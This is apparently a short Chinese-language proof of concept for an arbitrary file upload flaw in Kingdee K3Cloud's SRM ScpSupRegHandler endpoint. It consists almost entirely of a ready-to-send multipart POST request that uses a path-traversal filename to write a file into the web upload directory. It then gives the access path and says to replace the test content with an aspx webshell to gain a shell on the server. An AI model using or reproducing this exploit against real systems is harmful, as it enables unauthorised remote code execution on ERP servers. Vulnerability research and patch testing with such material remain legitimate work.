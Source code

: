 # -
访问接口
http://127.0.0.1/k3cloud/SRM/ScpSupRegHandler

POC：
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061 
Content-Length: 1782
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2023
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/kingdee.txt"
Content-Type: text/plain

test 
--2ac719f8e29343df94aa4ab49e456061—-

上传成功访问路径
http://127.0.0.1/k3cloud/uploadfiles/kingdee.txt
替换poc内上传内容为aspx马，提交上传getshell
